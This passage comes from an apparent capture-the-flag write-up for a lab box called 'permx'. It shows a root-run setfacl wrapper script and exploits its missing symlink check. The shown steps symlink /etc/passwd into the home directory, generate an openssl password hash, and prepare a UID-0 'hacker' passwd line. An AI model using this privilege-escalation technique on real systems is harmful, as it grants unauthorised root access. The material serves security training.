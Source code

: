 We can run a bash script called `acl.sh` as root.

Let's check this script.

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

This scripts allows us to change permission of file located in the /home/mtz directory.

There is nothing that can help us in the mtz directory but we can create it using symbolic links.

>A symlink is a symbolic Linux/ UNIX link that points to another file or folder on your computer, or a connected file system. This is similar to a Windows shortcut. Symlinks can take two forms: Soft links are similar to shortcuts, and can point to another file or directory in any file system.
{: .prompt-info }

We can create a symbolic link for the `/etc/passwd`, give it write permission and add a user with root privileges.

First we need to create a hash for the user we want to add:

```bash
$ openssl passwd hacker
$1$V5geGPyI$SZ9rieQ0FvnwdJdSq7MKV1
```

Now the line we will be adding is:

```terminal
hacker:$1$V5geGPyI$SZ9rieQ0FvnwdJdSq7MKV1:0:0:root:/root:/bin/bash
```

Now we create the symlink using the following command:

```terminal
mtz@permx:~$ ln -s /etc/passwd passwd
mtz@permx:~$ ls -l
total 4
lrwxrwxrwx 1 mtz  mtz 11 Aug 29 17:19 passwd -> /etc/passwd
-rw-r----- 1 root mtz 33 Aug 29 14:53 user.txt
```
